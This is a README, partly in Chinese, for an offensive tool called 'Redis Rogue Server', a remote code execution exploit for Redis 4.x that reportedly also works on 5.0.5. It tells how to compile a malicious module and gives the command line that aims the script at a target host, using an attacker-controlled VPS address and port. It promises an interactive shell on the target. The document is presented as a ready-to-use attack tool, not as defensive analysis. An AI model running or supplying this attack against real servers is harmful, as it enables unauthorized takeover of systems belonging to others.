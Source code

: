 # Redis Rogue Server

A exploit for Redis 4.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

经测试Redis 5.0.5也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

Run the rogue server:

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

如果目标Redis服务开启了认证功能，可以通过`--passwd`指定密码

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
